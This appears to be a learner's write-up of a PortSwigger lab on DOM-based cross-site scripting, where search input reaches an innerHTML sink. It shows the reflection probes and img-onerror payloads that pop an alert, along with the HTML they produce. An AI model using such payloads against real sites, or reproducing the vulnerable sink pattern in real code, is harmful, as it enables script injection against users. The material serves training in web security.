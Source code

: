 # DOM XSS in `innerHTML` sink using source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

### Note: The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`

---

### step 1

search test on search box

`<h1><span>3 search results for '</span><span id="searchMessage">test</span><span>'</span></h1>

search "test
`<h1><span>3 search results for '</span><span id="searchMessage">"test</span><span>'</span></h1>

### step2

search
`<img src=1 onerror=alert(document.domain)>`

`<h1><span>0 search results for '</span><span id="searchMessage"><img src="1" onerror="alert(document.domain)"></span><span>'</span></h1>`
pop up will come

now
`"><img src=1 onerror=alert(document.domain)>`
